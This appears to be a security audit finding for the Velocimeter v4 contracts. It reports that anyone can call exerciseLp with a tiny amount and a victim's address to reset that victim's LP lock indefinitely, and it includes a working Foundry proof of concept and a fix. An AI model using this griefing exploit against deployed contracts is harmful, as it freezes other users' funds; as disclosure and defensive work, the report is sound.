 Salty Azure Eagle

High

# Attacker can exercise option tokens to repeatedly relock victim's lp tokens.

## Summary

By exercising a very small amount of option tokens, an attacker can repeatedly reset the lock duration of the victim's lp balance, effectively locking the victim's funds indefinitely.

## Vulnerability Detail

`OptionTokenV4.exerciseLp()` calls `GaugeV4.depositWithLock()` with `_lockDuration` set to the max lock time. `GaugeV4.depositWithLock()` adds the provided `amount` to the existing `balanceWithLock[account]` and extends the lock duration **of the entire locked balance** (`lockEnd[account]`) to the provided `_lockDuration`.

By calling `OptionTokenV4.exerciseLp()` with a very small `amount` and `_recipient` set to the address of the victim, an attacker can reset the lock duration of the victim's lp balance to the max duration at practically no cost to the attacker. The attacker can repeat this whenever the lock is about to expire, thus locking the victim's funds indefinitely.

## Impact

Victim can never withdraw their lp balance.

## Proof of Concept

Copy this to a new file anywhere within `v4-contracts/test` and run it with `forge test --match-contract "OptionTokenLockVictim"`

<details>
<summary>Coded PoC</summary>

```solidity
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "lib/solmate/src/tokens/ERC20.sol";
import "contracts/factories/PairFactory.sol";
import "contracts/factories/GaugeFactoryV4.sol";
import "contracts/factories/BribeFactory.sol";
import "contracts/Router.sol";
import "contracts/VotingEscrow.sol";
import "contracts/Voter.sol";
import "contracts/Pair.sol";
import "contracts/GaugeV4.sol";
import "contracts/Flow.sol";
import "contracts/OptionTokenV4.sol";

contract Token is ERC20 {
    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol, _decimals) {}

    function mint(address to, uint amount) public {
        _mint(to, amount);
    }
}

contract OptionTokenLockVictim is Test {
    address DEPLOYER = address(uint160(uint(keccak256("DEPLOYER"))));
    address ALICE = address(uint160(uint(keccak256("ALICE"))));
    address BOB = address(uint160(uint(keccak256("BOB"))));

    Flow flow;
    Token paymentToken;
    Token underlyingToken;

    Router router;

    Pair pair;
    GaugeV4 gauge;

    OptionTokenV4 optionToken;

    function setUp() public {
        vm.startPrank(DEPLOYER);

        flow = new Flow(address(0), 0);
        paymentToken = new Token("Payment Token", "P", 18);
        underlyingToken = new Token("Underlying Token", "U", 18);

        underlyingToken.mint(DEPLOYER, 1e20);
        paymentToken.mint(DEPLOYER, 1e20);
        paymentToken.mint(ALICE, 1e20);
        paymentToken.mint(BOB, 1e20);

        PairFactory pairFactory = new PairFactory();
        GaugeFactoryV4 gaugeFactory = new GaugeFactoryV4();
        router = new Router(address(pairFactory), address(0));

        VotingEscrow votingEscrow = new VotingEscrow(
            address(flow),
            address(0),
            address(0),
            address(0)
        );

        Voter voter = new Voter(
            address(votingEscrow),
            address(pairFactory),
            address(gaugeFactory),
            address(new BribeFactory()),
            address(0)
        );

        pairFactory.setVoter(address(voter));

        pair = Pair(
            pairFactory.createPair(
                address(paymentToken),
                address(underlyingToken),
                false
            )
        );

        gauge = GaugeV4(voter.createGauge(address(pair), 0));

        optionToken = new OptionTokenV4(
            "Option Token",
            "O",
            DEPLOYER,
            address(underlyingToken),
            DEPLOYER,
            address(voter),
            address(router),
            false,
            false,
            false,
            0
        );

        gaugeFactory.addOTokenFor(address(gauge), address(optionToken));

        optionToken.setPairAndPaymentToken(pair, address(paymentToken));
        optionToken.setMaxLPDiscount(0);
        optionToken.setMinLPDiscount(1);
        optionToken.setLockDurationForMaxLpDiscount(52 weeks);
        optionToken.setLockDurationForMinLpDiscount(52 weeks);

        underlyingToken.approve(address(optionToken), 2e18);
        optionToken.mint(ALICE, 1e18);
        optionToken.mint(BOB, 1e18);

        underlyingToken.approve(address(router), 1e20);
        paymentToken.approve(address(router), 1e20);

        router.addLiquidity(
            address(underlyingToken),
            address(paymentToken),
            false,
            1e18,
            1e18,
            0,
            0,
            DEPLOYER,
            block.timestamp
        );

        for (uint i = 0; i < 10; i++) {
            router.swapExactTokensForTokensSimple(
                1e3,
                0,
                address(underlyingToken),
                address(paymentToken),
                false,
                DEPLOYER,
                block.timestamp
            );
            vm.warp(block.timestamp + 1801);
        }

        vm.stopPrank();
    }

    function testOptionTokenLockVictim() public {
        uint timestampAtStart = block.timestamp;

        vm.startPrank(ALICE); // <-- Victim
        paymentToken.approve(address(optionToken), type(uint).max);
        underlyingToken.approve(address(optionToken), 1e18);
        // Alice exercises 1 ether of option tokens with discount to get staked LP locked for 52 weeks
        (, , uint firstExpectedLp) = router.quoteAddLiquidity(
            address(underlyingToken),
            address(paymentToken),
            false,
            1e18,
            type(uint).max
        );
        optionToken.exerciseLp(1e18, type(uint).max, ALICE, 1, block.timestamp);
        assertEq(gauge.balanceOf(ALICE), firstExpectedLp);
        assertEq(gauge.balanceWithLock(ALICE), firstExpectedLp);
        // lock duration is 52 weeks
        assertEq(gauge.lockEnd(ALICE) - block.timestamp, 52 weeks);
        vm.stopPrank();

        vm.warp(block.timestamp + 51 weeks);

        // 27 weeks has passed and remaining lock duration is 1 week
        assertEq(gauge.lockEnd(ALICE) - block.timestamp, 1 weeks);

        vm.startPrank(BOB); // <-- Attacker
        paymentToken.approve(address(optionToken), type(uint).max);
        underlyingToken.approve(address(optionToken), 1);
        (, , uint secondExpectedLp) = router.quoteAddLiquidity(
            address(underlyingToken),
            address(paymentToken),
            false,
            1e2,
            type(uint).max
        );
        // Bob exercises just 10 wei of option tokens with _recipient set to Alice's address
        optionToken.exerciseLp(1e2, type(uint).max, ALICE, 1, block.timestamp);
        assertEq(gauge.balanceOf(ALICE), firstExpectedLp + secondExpectedLp);
        assertEq(
            gauge.balanceWithLock(ALICE),
            firstExpectedLp + secondExpectedLp
        );
        // lock duration is refreshed to 52 weeks
        assertEq(gauge.lockEnd(ALICE) - block.timestamp, 52 weeks);
        vm.stopPrank();

        vm.warp(block.timestamp + 51 weeks);

        // a total of 102 weeks has passed, but Alice is unable to withdraw any of her balance
        assertEq(block.timestamp - timestampAtStart, 102 weeks);
        vm.prank(ALICE);
        vm.expectRevert("The lock didn't expire");
        gauge.withdraw(1);
    }
}

```
</details>

## Code Snippet

`OptionTokenV4.exerciseLp()` calls `OptionTokenV4._exerciseLp()` which calls `GaugeV4.depositWithLock()`.

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L305-L314

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L652-L716

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/GaugeV4.sol#L443-L459

## Tool used

Manual Review

## Recommendation

In `GaugeV4.depositWithLock` there is currently a check that `msg.sender == account || isOToken[msg.sender]`. This suggests that this function is only meant to be used by the account owner. Therefore, the recommendation is to either add a similar check in `OptionTokenV4.exerciseLp` or simply pass `msg.sender` as account.